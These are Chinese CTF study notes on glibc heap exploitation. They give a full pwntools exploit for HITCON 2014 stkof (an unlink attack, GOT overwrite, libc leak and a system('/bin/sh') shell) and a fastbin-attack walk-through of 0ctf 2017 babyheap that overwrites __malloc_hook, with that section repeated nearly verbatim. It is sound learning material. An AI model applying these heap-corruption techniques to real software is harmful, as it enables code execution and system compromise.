




# Hitcon 2014 stkof

在free chunk的时候，向前合并，也就是高地址的chunk向前合并，在这个过程中，对前一个chunk，利用unlink，修改其指针为任意地址。

在这道题目中，我们可以修改chunk地址到bss区指针数组区，修改分配的chunk的指针为puts、system、atoi函数的plt地址，然后修改free的plt地址为puts的地址，这样就能输出puts的的地址，获取程序基址，然后修改atoi的plt为system的地址，输入("/bin/sh")，程序会执行：

ida里的反汇编代码：

```idl
  while ( fgets(nptr, 10, stdin) )
  {
    v3 = atoi(nptr);
```

就会直接执行system("/bin/sh")。


---

exp:

交互代码：

```python
# -*- coding: utf-8 -*-
import threading
import time
from pwn import *

c = process('./stkof')
elf = ELF('./stkof')
libc = ELF('./libc-2.23.so')

ptrArray = 0x602140

def addchunk(size):
    c.sendline('1')
    c.sendline(str(size))
    c.recvuntil('OK\n')

def edit(idx,cont):
    c.sendline('2')
    c.sendline(str(idx))
    c.sendline(str(len(cont)))
    c.send(cont)
    c.recvuntil('OK\n')

def free(idx):
    c.sendline('3')
    c.sendline(str(idx))
```

具体操作：

```plain
0x147a450	0x0000000000000000	0x0000000000000061	........a.......
0x147a460	0x0000000000000000	0x0000000000000000	................
0x147a470	0x0000000000000000	0x0000000000000000	................
0x147a480	0x0000000000000000	0x0000000000000000	................
0x147a490	0x0000000000000000	0x0000000000000000	................
0x147a4a0	0x0000000000000000	0x0000000000000000	................
0x147a4b0	0x0000000000000000	0x0000000000000061	........a.......
0x147a4c0	0x0000000000000000	0x0000000000000000	................
0x147a4d0	0x0000000000000000	0x0000000000000000	................
0x147a4e0	0x0000000000000000	0x0000000000000000	................
0x147a4f0	0x0000000000000000	0x0000000000000000	................
0x147a500	0x0000000000000000	0x0000000000000000	................
0x147a510	0x0000000000000000	0x0000000000020af1	................ <-- Top chunk
```

这是第二第三个chunk。

unlink的话，针对的是small chunk、large chunk，所以不能被放到fastbin里面。

这道题为什么不能使用fastbin attack？因为chunk被free之后，不会再被分配，chunk的下标不会减少，只会增加。为什么unlink需要在一个chunk里面伪造chunk？其实我个人觉得，也可以修改原来的chunk，不过后面我再试一试。暂且使用在chunk里面伪造chunk的办法，比较方便。


----


完整exp：

```python
# -*- coding: utf-8 -*-
import threading
import time
from pwn import *

c = process('./stkof')
elf = ELF('./stkof')
libc = ELF('./libc-2.23.so')


def addchunk(size):
    c.sendline('1')
    c.sendline(str(size))
    c.recvuntil('OK\n')

def edit(idx,cont):
    c.sendline('2')
    c.sendline(str(idx))
    c.sendline(str(len(cont)))
    c.send(cont)
    c.recvuntil('OK\n')

def free(idx):
    c.sendline('3')
    c.sendline(str(idx))
    

addchunk(0x100)#1
addchunk(0x30)#2
addchunk(0x80)#3
addchunk(0x20)#4

#我们想要将第二个chunk的地址，劫持到一个地方，通过修改这个地址，对，就是这个地址，是用户使用的地址，
#是直接写入的地址。
#这个地址应该在指针数组附近。


'''
pwndbg> x/80x 0x602100
0x602100:   0x00000003  0x00000000  0x00000000  0x00000000
0x602110:   0x00000000  0x00000000  0x00000000  0x00000000
0x602120:   0x00000000  0x00000000  0x00000000  0x00000000
0x602130:   0x00000000  0x00000000  0x00000000  0x00000000
0x602140:   0x00000000  0x00000000  0x01ec9020  0x00000000
0x602150:   0x01ec9460  0x00000000  0x01ec94c0  0x00000000
0x602160:   0x00000000  0x00000000  0x00000000  0x00000000
0x602170:   0x00000000  0x00000000  0x00000000  0x00000000
0x602180:   0x00000000  0x00000000  0x00000000  0x00000000
'''

'''
0x602100存储的是chunk的个数，0x602140，不对，是从0x602148开始，是chunk的地址。
程序malloc chunk是从下标1，开始的，但是0我们却仍旧可以访问到
所以我们可以劫持到一个地方，这个地方就是0x602140+0x18。

'''

#计算target

#为了绕过检查
#gdb.attach(c)
ptrArray = 0x602140
target=0x602140+16


cheat_code=p64(0x0)
cheat_code+=p64(0x31)

fd=target-0x18
cheat_code+=p64(fd)
bk=target-0x10
cheat_code+=p64(bk)

cheat_code+=p64(0x0)*2

#下一个chunk的pre_size
cheat_code+=p64(0x30)
#下一个chunk的size
cheat_code+=p64(0x90)

edit(2,cheat_code)


free(3)
#c.recvuntil('OK\n')
c.recvuntil('OK\n')

#获取plt
payload=b'a'*8                 #chunk -1
payload+=p64(elf.got['free'])   #chunk 0
payload+=p64(elf.got['puts']) #chunk 1
payload+=p64(elf.got['atoi'])   #chunk 2

#修改指针数组的0,1,2,3的chunk的指针
edit(2,payload)

'''
pwndbg> x/80x 0x602100
0x602100:   0x00000004  0x00000000  0x00000000  0x00000000
0x602110:   0x00000000  0x00000000  0x00000000  0x00000000
0x602120:   0x00000000  0x00000000  0x00000000  0x00000000
0x602130:   0x00000000  0x00000000  0x61616161  0x61616161
0x602140:   0x00602018  0x00000000  0x00602070  0x00000000
0x602150:   0x00602088  0x00000000  0x00000000  0x00000000
0x602160:   0x02386610  0x00000000  0x00000000  0x00000000
0x602170:   0x00000000  0x00000000  0x00000000  0x00000000
0x602180:   0x00000000  0x00000000  0x00000000  0x00000000

'''
#修改free为puts的plt
payload=p64(elf.plt['puts'])
edit(0,payload)

#获取基址
'''
free(1),而1是0x00602018，是
pwndbg> x/10x 0x00602018
0x602018 <free@got.plt>:    0xfb548540  0x00007f61  0xfb5336a0  0x00007f61
0x602028 <fread@got.plt>:   0xfb5321b0  0x00007f61  0x00400786  0x00000000

0x00602018作为指针，被指向的是free@got.plt，然后修改为puts的plt
那么，我们puts，输出的就是puts的地址
这里有一点绕，理解一下
'''
free(1)

#gdb.attach(c)

puts_addr = c.recvuntil(b'\nOK\n',drop = True).ljust(8,b'\x00')
puts_addr = u64(puts_addr)
libcbase = puts_addr - libc.symbols['puts']
system_addr = libcbase + libc.symbols['system']

log.success('puts_addr = ' + hex(puts_addr))
log.success('libcbase = ' + hex(libcbase))
log.success('system = ' + hex(system_addr))

#修改atoi为system
payload=p64(system_addr)
edit(2,payload)

c.sendline(b"/bin/sh")
c.interactive()
```


# Fastbin

补充：



# Unlink

相关ref：

https://blog.csdn.net/Echoion/article/details/120576057

---


unlink使用的时机（具体流程还需要阅读一下源码）

```c
malloc
    从恰好大小合适的 large bin 中获取 chunk。
free（一般在这里用的比较多）
    后向合并，合并物理相邻低地址空闲 chunk。
    前向合并，合并物理相邻高地址空闲 chunk（除了 top chunk）
malloc_consolidate
    后向合并，合并物理相邻低地址空闲 chunk。
    前向合并，合并物理相邻高地址空闲 chunk（除了 top chunk）
realloc
    前向扩展，合并物理相邻高地址空闲 chunk（除了 top chunk）
```


---


所谓unlink，不过是malloc.c文件里的一个函数。

malloc.c的版本号未知，但基本就是这样，各个版本具有相似性。

## 函数源码

注释：

```c
#define unlink(AV, P, BK, FD)
//BK,FD是局部变量，来帮助完成unlink的操作
```


---


```c
#define unlink(AV, P, BK, FD) {                                            \
    //判断chunk p的大小，是否与下一个chunk 的prev_size相等
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");               \
    //让FD指向p的下一个chunk，BK指向p的上一个chunk
    FD = P->fd;                                   \
    BK = P->bk;                                   \
    //以上是，chunk的大小在small bin范围内的断链操作
    //以下是，large bin，的断链操作，首先判断FD的bk，与BK的fd是否同时指向p
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))             \
      malloc_printerr ("corrupted double-linked list");               \
    else {                                    \
        //首先进行初步断链，使FD的bk指向BK的fd，BK的fd指向FD，只是堆fd,bk的断链操作
        FD->bk = BK;                                  \
        BK->fd = FD;                                  \
        //以下使堆bk_nextsize,fd_nextsize的断链操作（large bin有两个双向链表，fd，bk用来
        //进行FIFO操作，bk_nextsize,fd_nextsize是根据堆块的大小进行排序的链表）
        //以下第一个if判断p的chunk是否在small范围内
        if (!in_smallbin_range (chunksize_nomask (P))                 \
            && __builtin_expect (P->fd_nextsize != NULL, 0)) {            \
            //判断chunk p的下一个chunk的上一个节点，以及上一个chunk的下一个节点是不是p
        if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)        \
        || __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
          malloc_printerr ("corrupted double-linked list (not small)");   \
          //以下是luoarge bin的断链操作，首先判断chunk p的下下一个chunk的fd_nextsize是否为空
            if (FD->fd_nextsize == NULL) {                    \
            //p的下下一个chunk的fd_nextsize为空
                if (P->fd_nextsize == P)                      \
                //判断是否只有一个chunk p,是则如下
                  FD->fd_nextsize = FD->bk_nextsize = FD;             \
                else {                                \
                //不是以下操作，四个指针，正常的双向链表的断链操作
                    FD->fd_nextsize = P->fd_nextsize;                 \
                    FD->bk_nextsize = P->bk_nextsize;                 \
                    P->fd_nextsize->bk_nextsize = FD;                 \
                    P->bk_nextsize->fd_nextsize = FD;                 \
                  }                               \
              } else {                                \
              //p的下下一个chunk的fd_nextsize不为空，直接断链
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;             \
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;             \
              }                                   \
          }                                   \
      }                                       \
}
```

当然，我们需要具体的研究这个函数，我在网上找到了某位大哥的注解。


## 绕过检查

绕过第一重检查：

```c
if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))
```

那就修改下一个chunk的prev_size大小。


第二重检查：

```c
if (__builtin_expect (FD->bk != P || BK->fd != P, 0)) 
```

也就是，当前chunk，p，

- 的下一个chunk的bk指针是否指向p。
- 的上一个chunk的fd指针是否指向p。

这个怎么绕过？

当然，你会问，绕过这个干嘛？

先绕过，看懂绕过操作，你就懂了。

满足的条件：

第一个：

```c
P->fd->bk == P <=> *(P->fd + 0x18) == P 
```

第二个：

```c
p->bk->fd == P <=> *(p->bk + 0x10) == P 
```

那么，为了满足这两个条件，我们需要这样做：

```c
P->fd = &P - 0x18 
P->bk = &P - 0x10
```


绕过检查后，程序会执行如下代码：

```c
        FD->bk = BK;                                  
        BK->fd = FD;   
```


这个操作会产生什么后果呢？我们应该将等式转化为跟我们的chunk——p有关的内容：

```c
FD->bk = BK <=> P->fd->bk = p->bk <=> *(P->fd + 0x18) = P->bk;

BK->fd = FD <=> P->bk->fd = p->fd <=> *(P->bk + 0x10) = P->fd;
```

再往下解释：

```
P->fd = &P - 0x18 ，则*(&P - 0x18+ 0x18) = P->bk;  <==>   P=&P-0x10
P->bk = &P - 0x10 ，则*(&P - 0x10+ 0x10) = P->fd;  <==>   P=&P-0x18
```

由于什么呢？执行的先后顺序，导致最后是：

```
P=&P-0x18
```

也就是说，我们绕过检查之后，P会指向&P-0x18的位置处。

---

如果我们的P指针被执行unlink函数，那么按照我们的操作，最后，会实现**P指向&P-0x18的位置处**。

也就是我们题目中，分配的某个chunk的地址被修改了。

# Fastbin Attack

## 0ctf_2017_babyheap

感谢这位大哥，写的exp也太照顾人了。

https://blog.csdn.net/qq_43935969/article/details/115877748

---


当然，这个exp里面，chunk的索引写的很混乱。等我日后再做然后来修改修改。

---


堆题，经典的堆题目。

先分配5个chunk，4个0x10，一个0x80

```python
allo(0x10)#0
allo(0x10)#1
allo(0x10)#2
allo(0x10)#3
allo(0x80)#4
```

释放chunk1和2

```python
free(1)
free(2)
```


fbin->chunk2--->chunk1--->0x0


接着通过修改chunk0，来修改chunk2的fd指针

```python
payload = p64(0)*3 + p64(0x21) + p64(0)*3 + p64(0x21)
payload += p8(0x80)
fill(0,len(payload),payload)
```

应该是：fbin-->chunk2--->chun4--->0x0

也就是，chunk1已经无法访问到了。


然后修改chunk3,修改chunk4的大小，原本它是0x91,修改为0x21

```python
payload = p64(0)*3 + p64(0x21)
fill(3,len(payload),payload)
```

再分配2个chunk

```python
allo(0x10)#1 The original position of 2
allo(0x10)#2 4 Simultaneous pointing
```

fbin-->0x0

其实呢，chunk4，也就是那个大的chunk暂时是没有被释放过。但是我们通过修改fbin里面被释放的chunk的指针，让bin误以为我们释放了一个fastbin中的chunk4，然后修改chunk4的大小（为了躲过检查），然后再次分配，使得chunk4的地址被一个新的小指针指向。等于有两个指针指向同一个位置——chunk4。

接着，我们：

```python
payload = p64(0)*3 + p64(0x91)
fill(3,len(payload),payload)
```

修改chunk4的大小，本来它的size就是0x91，

等于是，恢复了chunk4。

同时有一个chunk2，大小为0x21,也指向这个位置。

free了chunk4。

```python
free(4)
```

这个chunk4要被放到unsortedbin里面。

然后它指向main_arena的地址。

泄露地址，获得libc的基址：

```pythoN
dump(2)
#so here,we can print the address of main_arena
content = u64(p.recvuntil(b'\x7f')[-6:]+b'\x00\x00')
print(hex(content))
libc_base = (content) - 0x3c4b78
print(hex(libc_base))
```


然后分配一个chunk4，替代了上个chunk4。这个chunk4的大小是0x71,chunk2，也就是程序以为的chunk2，应该是0x21的大小。虽然下面的那个放合并的chunk5显示的是0x90，说上一个chunk处在空闲状态。 但其实chunk2并不处在空闲状态。


接着freechunk4，也就是我们分配的这个0x60的chunk。

这个chunk4会被放到fastbin里面。


然后修改chunk2的fd指针，修改地址为

```python
payload = p64(libc_base + 0x3C4AED)
fill(2,len(payload),payload)
```

然后fastbin：

```c
pwndbg> bin
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x55885630f080 —▸ 0x7fcdd7742aed (_IO_wide_data_0+301) ◂— 0xcdd7403ea0000000
0x80: 0x0
unsortedbin
all: 0x55885630f0f0 —▸ 0x7fcdd7742b78 (main_arena+88) ◂— 0x55885630f0f0
smallbins
empty
largebins
empty
```


再次alloc两次，就能得到0x7fcdd7742aed的chunk6。

在这里修改malloc_hook地址为gadget的地址，然后你分配任意大小内存就能够调用gadget，实现getshell。

这是没有修改malloc_hook的图片：


这是修改了malloc_hook的图片：


https://blog.csdn.net/qq_43935969/article/details/115877748

---


当然，这个exp里面，chunk的索引写的很混乱。等我日后再做然后来修改修改。

---


堆题，经典的堆题目。

先分配5个chunk，4个0x10，一个0x80

```python
allo(0x10)#0
allo(0x10)#1
allo(0x10)#2
allo(0x10)#3
allo(0x80)#4
```

释放chunk1和2

```python
free(1)
free(2)
```


fbin->chunk2--->chunk1--->0x0


接着通过修改chunk0，来修改chunk2的fd指针

```python
payload = p64(0)*3 + p64(0x21) + p64(0)*3 + p64(0x21)
payload += p8(0x80)
fill(0,len(payload),payload)
```

应该是：fbin-->chunk2--->chun4--->0x0

也就是，chunk1已经无法访问到了。


然后修改chunk3,修改chunk4的大小，原本它是0x91,修改为0x21

```python
payload = p64(0)*3 + p64(0x21)
fill(3,len(payload),payload)
```

再分配2个chunk

```python
allo(0x10)#1 The original position of 2
allo(0x10)#2 4 Simultaneous pointing
```

fbin-->0x0

其实呢，chunk4，也就是那个大的chunk暂时是没有被释放过。但是我们通过修改fbin里面被释放的chunk的指针，让bin误以为我们释放了一个fastbin中的chunk4，然后修改chunk4的大小（为了躲过检查），然后再次分配，使得chunk4的地址被一个新的小指针指向。等于有两个指针指向同一个位置——chunk4。

接着，我们：

```python
payload = p64(0)*3 + p64(0x91)
fill(3,len(payload),payload)
```

修改chunk4的大小，本来它的size就是0x91，

等于是，恢复了chunk4。

同时有一个chunk2，大小为0x21,也指向这个位置。

free了chunk4。

```python
free(4)
```

这个chunk4要被放到unsortedbin里面。

然后它指向main_arena的地址。

泄露地址，获得libc的基址：

```pythoN
dump(2)
#so here,we can print the address of main_arena
content = u64(p.recvuntil(b'\x7f')[-6:]+b'\x00\x00')
print(hex(content))
libc_base = (content) - 0x3c4b78
print(hex(libc_base))
```


然后分配一个chunk4，替代了上个chunk4。这个chunk4的大小是0x71,chunk2，也就是程序以为的chunk2，应该是0x21的大小。虽然下面的那个放合并的chunk5显示的是0x90，说上一个chunk处在空闲状态。 但其实chunk2并不处在空闲状态。




接着freechunk4，也就是我们分配的这个0x60的chunk。

这个chunk4会被放到fastbin里面。


然后修改chunk2的fd指针，修改地址为

```python
payload = p64(libc_base + 0x3C4AED)
fill(2,len(payload),payload)
```

然后fastbin：

```c
pwndbg> bin
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x55885630f080 —▸ 0x7fcdd7742aed (_IO_wide_data_0+301) ◂— 0xcdd7403ea0000000
0x80: 0x0
unsortedbin
all: 0x55885630f0f0 —▸ 0x7fcdd7742b78 (main_arena+88) ◂— 0x55885630f0f0
smallbins
empty
largebins
empty
```


再次alloc两次，就能得到0x7fcdd7742aed的chunk6。

在这里修改malloc_hook地址为gadget的地址，然后你分配任意大小内存就能够调用gadget，实现getshell。

这是没有修改malloc_hook的图片：




这是修改了malloc_hook的图片：



# overview-heap-exploitation


内容来自：https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/

fastbin，我们看到，是单链表（**singly linked**）。

给你来个程序：

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>
int main(){
	int* p1=(int*)malloc(0x20);
	int* p2=(int*)malloc(0x30);
	int* p3=(int*)malloc(0x40);

	free(p1);
	free(p2);
	free(p3);
} 
```


当然，这三个都是在fastbin里的。

---

free了这三个chunk后，我惊奇的发现还能查看heap，于是就开心的查看了一番：

```assembly
   0x4005b7       <main+81>                  call   free@plt <free@plt>
 ► 0x4005bc       <main+86>                  mov    eax, 0
   0x4005c1       <main+91>                  leave  
   0x4005c2       <main+92>                  ret    
    ↓
   0x7ffff7a2d840 <__libc_start_main+240>    mov    edi, eax
   0x7ffff7a2d842 <__libc_start_main+242>    call   exit <exit>

```

在这个位置处，查看：

heap：

```c
pwndbg> heap
Free chunk (fastbins) | PREV_INUSE
Addr: 0x602000
Size: 0x31
fd: 0x00

Free chunk (fastbins) | PREV_INUSE
Addr: 0x602030
Size: 0x41
fd: 0x00

Free chunk (fastbins) | PREV_INUSE
Addr: 0x602070
Size: 0x51
fd: 0x00

Top chunk | PREV_INUSE
Addr: 0x6020c0
Size: 0x20f41

```

bins：

```c
pwndbg> bin
fastbins
0x20: 0x0
0x30: 0x602000 ◂— 0x0
0x40: 0x602030 ◂— 0x0
0x50: 0x602070 ◂— 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
```

vis：

```c
pwndbg> vis

0x602000	0x0000000000000000	0x0000000000000031	........1.......	 <-- fastbins[0x30][0]
0x602010	0x0000000000000000	0x0000000000000000	................
0x602020	0x0000000000000000	0x0000000000000000	................
0x602030	0x0000000000000000	0x0000000000000041	........A.......	 <-- fastbins[0x40][0]
0x602040	0x0000000000000000	0x0000000000000000	................
0x602050	0x0000000000000000	0x0000000000000000	................
0x602060	0x0000000000000000	0x0000000000000000	................
0x602070	0x0000000000000000	0x0000000000000051	........Q.......	 <-- fastbins[0x50][0]
0x602080	0x0000000000000000	0x0000000000000000	................
0x602090	0x0000000000000000	0x0000000000000000	................
0x6020a0	0x0000000000000000	0x0000000000000000	................
0x6020b0	0x0000000000000000	0x0000000000000000	................
0x6020c0	0x0000000000000000	0x0000000000020f41	........A.......	 <-- Top chunk
```

查看main_arena：

```c
pwndbg> x/80x 0x7ffff7dd1b20
0x7ffff7dd1b20 <main_arena>:	0x00000000	0x00000000	0x00000000	0x00000000
0x7ffff7dd1b30 <main_arena+16>:	0x00602000	0x00000000	0x00602030	0x00000000
0x7ffff7dd1b40 <main_arena+32>:	0x00602070	0x00000000	0x00000000	0x00000000
0x7ffff7dd1b50 <main_arena+48>:	0x00000000	0x00000000	0x00000000	0x00000000
0x7ffff7dd1b60 <main_arena+64>:	0x00000000	0x00000000	0x00000000	0x00000000
0x7ffff7dd1b70 <main_arena+80>:	0x00000000	0x00000000	0x006020c0	0x00000000
0x7ffff7dd1b80 <main_arena+96>:	0x00000000	0x00000000	0xf7dd1b78	0x00007fff
0x7ffff7dd1b90 <main_arena+112>:	0xf7dd1b78	0x00007fff	0xf7dd1b88	0x00007fff
0x7ffff7dd1ba0 <main_arena+128>:	0xf7dd1b88	0x00007fff	0xf7dd1b98	0x00007fff
0x7ffff7dd1bb0 <main_arena+144>:	0xf7dd1b98	0x00007fff	0xf7dd1ba8	0x00007fff
0x7ffff7dd1bc0 <main_arena+160>:	0xf7dd1ba8	0x00007fff	0xf7dd1bb8	0x00007fff
0x7ffff7dd1bd0 <main_arena+176>:	0xf7dd1bb8	0x00007fff	0xf7dd1bc8	0x00007fff
0x7ffff7dd1be0 <main_arena+192>:	0xf7dd1bc8	0x00007fff	0xf7dd1bd8	0x00007fff
0x7ffff7dd1bf0 <main_arena+208>:	0xf7dd1bd8	0x00007fff	0xf7dd1be8	0x00007fff
0x7ffff7dd1c00 <main_arena+224>:	0xf7dd1be8	0x00007fff	0xf7dd1bf8	0x00007fff
0x7ffff7dd1c10 <main_arena+240>:	0xf7dd1bf8	0x00007fff	0xf7dd1c08	0x00007fff
0x7ffff7dd1c20 <main_arena+256>:	0xf7dd1c08	0x00007fff	0xf7dd1c18	0x00007fff
0x7ffff7dd1c30 <main_arena+272>:	0xf7dd1c18	0x00007fff	0xf7dd1c28	0x00007fff
0x7ffff7dd1c40 <main_arena+288>:	0xf7dd1c28	0x00007fff	0xf7dd1c38	0x00007fff
0x7ffff7dd1c50 <main_arena+304>:	0xf7dd1c38	0x00007fff	0xf7dd1c48	0x00007fff
```

print main_arena：

```c
pwndbg> print main_arena
$3 = {
  mutex = 0, 
  flags = 0, 
  fastbinsY = {0x0, 0x602000, 0x602030, 0x602070, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0}, 
  top = 0x6020c0, 
  last_remainder = 0x0, 
  bins = {0x7ffff7dd1b78 <main_arena+88>, 0x7ffff7dd1b78 <main_arena+88>, 0x7ffff7dd1b88 <main_arena+104>, 0x7ffff7dd1b88 <main_arena+104>, 0x7ffff7dd1b98 <main_arena+120>, 0x7ffff7dd1b98 <main_arena+120>, 0x7ffff7dd1ba8 <main_arena+136>, 0x7ffff7dd1ba8 <main_arena+136>, 0x7ffff7dd1bb8 <main_arena+152>, 0x7ffff7dd1bb8 <main_arena+152>, 0x7ffff7dd1bc8 <main_arena+168>, 0x7ffff7dd1bc8 <main_arena+168>, 0x7ffff7dd1bd8 <main_arena+184>, 0x7ffff7dd1bd8 <main_arena+184>, 0x7ffff7dd1be8 <main_arena+200>, 0x7ffff7dd1be8 <main_arena+200>, 0x7ffff7dd1bf8 <main_arena+216>, 0x7ffff7dd1bf8 <main_arena+216>, 0x7ffff7dd1c08 <main_arena+232>, 0x7ffff7dd1c08 <main_arena+232>, 0x7ffff7dd1c18 <main_arena+248>, 0x7ffff7dd1c18 <main_arena+248>, 0x7ffff7dd1c28 <main_arena+264>, 0x7ffff7dd1c28 <main_arena+264>, 0x7ffff7dd1c38 <main_arena+280>, 0x7ffff7dd1c38 <main_arena+280>, 0x7ffff7dd1c48 <main_arena+296>, 0x7ffff7dd1c48 <main_arena+296>, 0x7ffff7dd1c58 <main_arena+312>, 0x7ffff7dd1c58 <main_arena+312>, 0x7ffff7dd1c68 <main_arena+328>, 0x7ffff7dd1c68 <main_arena+328>, 0x7ffff7dd1c78 <main_arena+344>, 0x7ffff7dd1c78 <main_arena+344>, 0x7ffff7dd1c88 <main_arena+360>, 0x7ffff7dd1c88 <main_arena+360>, 0x7ffff7dd1c98 <main_arena+376>, 0x7ffff7dd1c98 <main_arena+376>, 0x7ffff7dd1ca8 <main_arena+392>, 0x7ffff7dd1ca8 <main_arena+392>, 0x7ffff7dd1cb8 <main_arena+408>, 0x7ffff7dd1cb8 <main_arena+408>, 0x7ffff7dd1cc8 <main_arena+424>, 0x7ffff7dd1cc8 <main_arena+424>, 0x7ffff7dd1cd8 <main_arena+440>, 0x7ffff7dd1cd8 <main_arena+440>, 0x7ffff7dd1ce8 <main_arena+456>, 0x7ffff7dd1ce8 <main_arena+456>, 0x7ffff7dd1cf8 <main_arena+472>, 0x7ffff7dd1cf8 <main_arena+472>, 0x7ffff7dd1d08 <main_arena+488>, 0x7ffff7dd1d08 <main_arena+488>, 0x7ffff7dd1d18 <main_arena+504>, 0x7ffff7dd1d18 <main_arena+504>, 0x7ffff7dd1d28 <main_arena+520>, 0x7ffff7dd1d28 <main_arena+520>, 0x7ffff7dd1d38 <main_arena+536>, 0x7ffff7dd1d38 <main_arena+536>, 0x7ffff7dd1d48 <main_arena+552>, 0x7ffff7dd1d48 <main_arena+552>, 0x7ffff7dd1d58 <main_arena+568>, 0x7ffff7dd1d58 <main_arena+568>, 0x7ffff7dd1d68 <main_arena+584>, 0x7ffff7dd1d68 <main_arena+584>, 0x7ffff7dd1d78 <main_arena+600>, 0x7ffff7dd1d78 <main_arena+600>, 0x7ffff7dd1d88 <main_arena+616>, 0x7ffff7dd1d88 <main_arena+616>, 0x7ffff7dd1d98 <main_arena+632>, 0x7ffff7dd1d98 <main_arena+632>, 0x7ffff7dd1da8 <main_arena+648>, 0x7ffff7dd1da8 <main_arena+648>, 0x7ffff7dd1db8 <main_arena+664>, 0x7ffff7dd1db8 <main_arena+664>, 0x7ffff7dd1dc8 